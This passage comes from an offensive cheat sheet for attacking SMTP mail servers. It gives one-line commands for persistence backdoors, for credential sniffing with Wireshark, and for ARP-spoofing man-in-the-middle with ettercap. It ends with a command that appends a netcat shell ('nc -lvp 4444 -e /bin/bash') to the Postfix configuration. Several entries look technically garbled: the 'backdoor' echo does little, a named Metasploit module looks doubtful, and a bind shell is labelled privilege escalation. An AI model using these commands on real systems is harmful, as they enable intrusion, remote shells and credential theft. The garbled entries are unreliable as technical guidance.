 ### Persistence

#### Backdooring SMTP Scripts

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    echo 'echo "MAIL FROM:<backdoor@example.com>" >> /etc/mail/scripts.sh' >> /etc/mail/scripts.sh
    ```
* **Description:** Modifies SMTP handling scripts to include a backdoor, allowing for persistent unauthorized access.

#### SMTP Backdoor

*   **Tool:** \[\[Custom Scripts]], \[\[Metasploit]]

    ```bash
    use auxiliary/server/smtp_backdoor
    set SRVHOST <target_ip>
    run
    ```
* **Description:** Establishes a backdoor via SMTP for persistent access.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port 25"
    ```
* **Description:** Capture traffic and extract plaintext credentials (if STARTTLS is not used).

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[ettercap]], \[\[BetterCap Cheat Sheet]]

    ```bash
    ettercap -T -q -M arp:remote /<target_ip>/ /<smtp_server_ip>/
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

### Privilege Escalation

#### Exploiting Misconfigured SMTP Permissions

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    echo 'nc -lvp 4444 -e /bin/bash' >> /etc/postfix/master.cf
    ```
* **Description:** Modifies SMTP configuration files or scripts to escalate privileges on the server.

